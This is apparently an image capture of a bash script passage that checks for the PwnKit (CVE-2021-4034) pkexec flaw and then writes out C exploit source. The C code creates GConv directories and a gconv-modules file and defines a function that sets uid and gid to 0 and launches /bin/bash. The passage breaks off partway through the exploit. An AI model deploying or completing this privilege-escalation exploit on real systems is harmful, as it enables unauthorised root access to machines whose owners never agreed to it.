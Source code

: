```bash
# Function to check for CVE-2021-4034 (PwnKit)
check_pwnkit() {
    echo "[*] Checking for PwnKit vulnerability (CVE-2021-4034)..."
    
    if [ -x "$(command -v pkexec)" ]; then
        PKEXEC_PATH=$(which pkexec)
        if [ -u "$PKEXEC_PATH" ]; then
            echo "[+] pkexec is SUID and may be vulnerable to PwnKit"
            echo "    Path: $PKEXEC_PATH"
            
            # Attempt to deploy PwnKit exploit
            echo "[*] Deploying PwnKit exploit..."
            cat > pwnkit.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>

#define SHELL "/bin/bash"
#define PATH "/usr/bin:/usr/sbin:/bin:/sbin"

void make_shell(void) {
    setuid(0);
    setgid(0);
    char *envp[] = {"PATH=" PATH, NULL};
    char *argv[] = {SHELL, NULL};
    execve(SHELL, argv, envp);
}

int main(int argc, char **argv) {
    char parent_dir[1024] = {0};
    char filepath[2048] = {0};
    char gconv_dir[2048] = {0};
    char gconv_dir_env[3096] = {0};
    char shell_symlink[2048] = {0};
    
    // Create temporary directory
    sprintf(parent_dir, "/tmp/pwnkit-%d", getpid());
    if (mkdir(parent_dir, 0777) != 0) {
        perror("mkdir parent_dir");
        return 1;
    }
    
    // Create GConv directory structure
    sprintf(gconv_dir, "%s/pwnkit", parent_dir);
    if (mkdir(gconv_dir, 0777) != 0) {
        perror("mkdir gconv_dir");
        return 1;
    }
    
    // Create GConv module configuration
    sprintf(filepath, "%s/gconv-modules", gconv_dir);
    int fd = open(filepath, O_CREAT|O_WRONLY, 0777);
    if (fd < 0) {
        perror("open gconv-modules");
        return 1;
    }
    write(fd, "module UTF-8// PWNKIT// pwnkit 2", 32);
    close(fd);
    
    // Create exploit module
```